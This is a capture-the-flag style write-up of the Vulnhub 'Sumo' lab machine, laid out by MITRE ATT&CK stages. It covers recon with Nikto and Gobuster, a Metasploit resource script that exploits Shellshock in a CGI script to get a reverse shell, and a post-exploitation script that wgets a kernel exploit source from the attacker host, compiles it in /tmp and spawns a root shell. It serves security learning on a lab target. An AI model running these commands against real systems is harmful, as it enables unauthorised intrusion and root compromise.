

# Vulnhub Writeup #5: Sumo

## Key lessons learned:
- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- Large desire to read approaches that didn't use Nikto to discover the mod-cgi vulnerability
-Modify shell path early on to avoid "missing" binaries with
`export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin `
## MITRE Att&ck Overview


MITRE ATT&CK matrix made with [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)

## Reconnaissance
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

####Techniques and procedures
- Opened up ZAP and crawled host's port 80 HTTP server; found nothing of note. 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster ( #Crawling )
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [Reconnaissance](Reconnaissance.md) which was able to identify this folder, as well as a default "it works! file". From here there seem to be 2 ways to find the vector:
  1) Nikto
  2) Knowing that CGI is extremely vulnerable
No other write-ups I've found have illustrated using pure deduction to figure this vector out.

### Initial Access, Execution & Command and Control
Scanned for shellshock vulnerabilities in MSF (Searchsploit could've been used here as well):
```
search shellshock
```

The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an available msf module.

###### Metasploit Resource Script for exploitation
```
sudo msfconsole
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set PAYLOAD payload/generic/shell_reverse_tcp
set TARGETURI /cgi-bin/test/test.cgi
set RHOST 172.16.2.44
set LPORT 4444
set CVE CVE-2014-6278
exploit
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh
```
#MetasploitScripts


## ** Discovery | Collection | Exfiltration**
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
- Finally just wrote a script that would execute post_enum for me at [Discovery](Discovery.md)

## Privilege Escalation
Simply looking up the kernel version in SearchSploit uncovered kernel exploit based LPE
```text 
searchsploit ubuntu 3.2.0 
```


### sumo_post.sh - privilege escalation script
```bash
# sumo_post.sh 
# move here for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Technical Issues Encountered
Encountered 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld)

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp

Tags
#vulnhub #linux